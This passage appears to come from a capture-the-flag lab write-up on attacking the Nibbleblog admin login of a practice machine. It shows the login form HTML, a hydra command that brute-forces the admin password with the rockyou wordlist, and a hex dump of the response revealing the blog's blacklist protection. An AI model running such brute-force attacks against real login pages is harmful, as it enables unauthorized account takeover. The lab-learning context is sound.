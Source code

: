 Trying some basic ones like `admin/admin` or `admin/password` does not work... Try an HTTP bruteforce. First get the HTML source code for the `admin.php` login form:

```html
<form id="js_form" name="form" method="post"  >
   <div class="form_block" >
    <input class="username" name="username" type="text" placeholder="Username" autocomplete="off" maxlength="254" />
  </div>
   <div class="form_block" >
    <input class="password" name="password" type="password" placeholder="Password" autocomplete="off" maxlength="254" />
  </div>
  <div class="form_block" >
    <input type="checkbox" id="js_remember" name="remember" class="float"  value="1"/>
    <label class="for_checkbox remember" for="js_remember" >Remember me</label>
    <input type="submit" class="save" value="Login" />
  </div>
</form>
```

Then use this to make the following brute-force login:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hydra 10.10.10.75 http-form-post "/nibbleblog/admin.php:remember=1&username=admin&password=^PASS^:Incorrect" -l admin -P rockyou.txt -vV -f
```

But this does not work (returns a false positive)... Adding a `-d` shows the following output from the target:

```
0000:  4854 5450 2f31 2e31 2032 3030 204f 4b0d    [ HTTP/1.1 200 OK. ]
0010:  0a44 6174 653a 204d 6f6e 2c20 3039 204e    [ .Date: Mon, 09 N ]
0020:  6f76 2032 3032 3020 3034 3a31 383a 3335    [ ov 2020 04:18:35 ]
0030:  2047 4d54 0d0a 5365 7276 6572 3a20 4170    [  GMT..Server: Ap ]
0040:  6163 6865 2f32 2e34 2e31 3820 2855 6275    [ ache/2.4.18 (Ubu ]
0050:  6e74 7529 0d0a 4578 7069 7265 733a 2054    [ ntu)..Expires: T ]
0060:  6875 2c20 3139 204e 6f76 2031 3938 3120    [ hu, 19 Nov 1981  ]
0070:  3038 3a35 323a 3030 2047 4d54 0d0a 4361    [ 08:52:00 GMT..Ca ]
0080:  6368 652d 436f 6e74 726f 6c3a 206e 6f2d    [ che-Control: no- ]
0090:  7374 6f72 652c 206e 6f2d 6361 6368 652c    [ store, no-cache, ]
00a0:  206d 7573 742d 7265 7661 6c69 6461 7465    [  must-revalidate ]
00b0:  2c20 706f 7374 2d63 6865 636b 3d30 2c20    [ , post-check=0,  ]
00c0:  7072 652d 6368 6563 6b3d 300d 0a50 7261    [ pre-check=0..Pra ]
00d0:  676d 613a 206e 6f2d 6361 6368 650d 0a43    [ gma: no-cache..C ]
00e0:  6f6e 7465 6e74 2d4c 656e 6774 683a 2034    [ ontent-Length: 4 ]
00f0:  380d 0a43 6f6e 6e65 6374 696f 6e3a 2063    [ 8..Connection: c ]
0100:  6c6f 7365 0d0a 436f 6e74 656e 742d 5479    [ lose..Content-Ty ]
0110:  7065 3a20 7465 7874 2f68 746d 6c3b 2063    [ pe: text/html; c ]
0120:  6861 7273 6574 3d55 5446 2d38 0d0a 0d0a    [ harset=UTF-8.... ]
0130:  4e69 6262 6c65 626c 6f67 2073 6563 7572    [ Nibbleblog secur ]
0140:  6974 7920 6572 726f 7220 2d20 426c 6163    [ ity error - Blac ]
0150:  6b6c 6973 7420 7072 6f74 6563 7469 6f6e    [ klist protection ]
```
